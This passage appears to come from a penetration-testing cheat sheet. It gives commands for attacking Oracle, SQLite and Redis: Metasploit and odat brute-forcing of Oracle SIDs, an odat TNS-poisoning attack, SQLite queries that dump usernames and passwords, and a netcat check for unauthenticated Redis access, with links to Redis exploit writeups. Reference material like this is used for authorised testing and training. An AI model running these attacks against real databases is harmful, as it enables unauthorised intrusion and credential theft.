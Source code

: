 Brute SID with MSF:

```
msf > use auxiliary/scanner/oracle/sid_brute
msf > set RHOSTS file:oracle.txt
msf > set THREADS 25
msf > set VERBOSE false
msf > run
```

Brute SID with odat:

```
$ odat sidguesser -s 10.10.13.37 -p 1521
```

Exploit with odat:

* [https://github.com/quentinhardy/odat/wiki/tnspoison](https://github.com/quentinhardy/odat/wiki/tnspoison)

```
$ odat tnspoison -s 10.10.13.37 -d <SID> --test-module
$ odat tnspoison -s 10.10.13.37 -d <SID> --poison
```




## SQLite

```
SELECT tbl_name FROM sqlite_master WHERE type='table' AND tbl_name NOT like 'sqlite_%';
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='secret_database';
SELECT username,password FROM secret_database;
```




## Redis

* [https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html)
* [2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)
* [https://github.com/holys/redis-cli/releases](https://github.com/holys/redis-cli/releases)
* [https://github.com/antirez/redis](https://github.com/antirez/redis)

Check for anonymous login:

```
$ nc 127.0.0.1 6379
Escape character is '^]'.
echo "Hey, no AUTH required!"
$21
Hey, no AUTH required!
quit
+OK
Connection closed by foreign host.
```
